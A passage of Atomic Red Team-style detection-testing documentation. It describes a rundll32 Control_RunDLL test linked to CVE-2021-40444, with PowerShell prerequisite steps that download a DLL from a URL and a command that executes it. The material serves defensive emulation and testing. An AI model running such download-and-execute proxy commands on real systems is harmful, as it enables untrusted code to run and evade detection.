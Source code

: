 #### Dependencies: Run with `powershell`!

##### Description: DLL file must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "#{input_url}" -OutFile "#{input_file}"
```

<br/>
<br/>

## Atomic Test #12 - Rundll32 with Control_RunDLL

Rundll32.exe loading dll with 'control_rundll' within the command-line, loading a .cpl or another file type related to CVE-2021-40444.

**Supported Platforms:** Windows

**auto_generated_guid:** e4c04b6f-c492-4782-82c7-3bf75eb8077e

#### Inputs:

| Name       | Description             | Type   | Default Value                                                                        |
| ---------- | ----------------------- | ------ | ------------------------------------------------------------------------------------ |
| input_url  | Url to download the DLL | url    | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1047/bin/calc.dll |
| input_file | DLL File                | string | PathToAtomicsFolder&#92;T1047&#92;bin&#92;calc.dll                                   |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe shell32.dll,Control_RunDLL "#{input_file}"
```

#### Dependencies: Run with `powershell`!

##### Description: DLL file must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "#{input_url}" -OutFile "#{input_file}"
```
